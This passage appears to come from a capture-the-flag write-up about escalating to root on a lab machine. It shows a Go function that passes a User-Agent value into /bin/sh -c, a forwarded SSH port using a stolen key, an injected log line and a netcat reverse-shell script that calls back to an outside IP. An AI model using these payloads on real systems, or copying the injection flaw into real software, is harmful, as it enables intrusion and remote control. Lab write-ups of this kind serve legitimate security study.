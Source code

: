 ```go
func (l *LogServiceHandler) ReadLogFile(ctx context.Context, filePath string) (r string, err error) {
    file, err := os.Open(filePath)
    if err != nil {
        return "", fmt.Errorf("error opening log file: %v", err)
    }
    defer file.Close()
    ipRegex := regexp.MustCompile(`\b(?:\d{1,3}\.){3}\d{1,3}\b`)
    userAgentRegex := regexp.MustCompile(`"user-agent":"([^"]+)"`)
    outputFile, err := os.Create("output.log")
    if err != nil {
        fmt.Println("Error creating output file:", err)
        return
    }
    defer outputFile.Close()
    scanner := bufio.NewScanner(file)
    for scanner.Scan() {
        line := scanner.Text()
        ip := ipRegex.FindString(line)
        userAgentMatch := userAgentRegex.FindStringSubmatch(line)
        var userAgent string
        if len(userAgentMatch) > 1 {
            userAgent = userAgentMatch[1]
        }
        timestamp := time.Now().Format(time.RFC3339)
        logs := fmt.Sprintf("echo 'IP Address: %s, User-Agent: %s, Timestamp: %s' >> output.log", ip, userAgent, timestamp)
        exec.Command{"/bin/sh", "-c", logs}
    }
    return "Log file processed",nil
}
```
This implies that code execution becomes possible if the `logs` variable can be controlled. For instance, manipulating a parameter like the `userAgent` variable could provide the necessary input to exploit the vulnerability.

The server app runs on port 9090, this explains what we saw previously
### Shell as root

Forward the Port 9090 to our local machine through SSH since we poses the id_ecdsa private key
```bash
ssh margo@10.129.80.229 -i id_ecdsa -L 9090:127.0.0.1:9090 -N -f
```
The logs variable includes the userAgent variable, which I can manipulate. By injecting a stager into the User-Agent header, the stager will propagate through the userAgent variable and subsequently into the logs variable. This setup allows the stager to execute a payload located at /tmp/privesc.sh, enabling code execution on the target system.

```bash
margo@caption:~$ nano /tmp/malicious.log
margo@caption:~$ cat /tmp/malicious.log
127.0.0.1 "user-agent":"'; /bin/bash /tmp/privesc.sh #"
margo@caption:~$ nano /tmp/privesc.sh
margo@caption:~$ cat /tmp/privesc.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.134 1337 >/tmp/f
margo@caption:~$chmod +x /tmp/privesc.sh
```
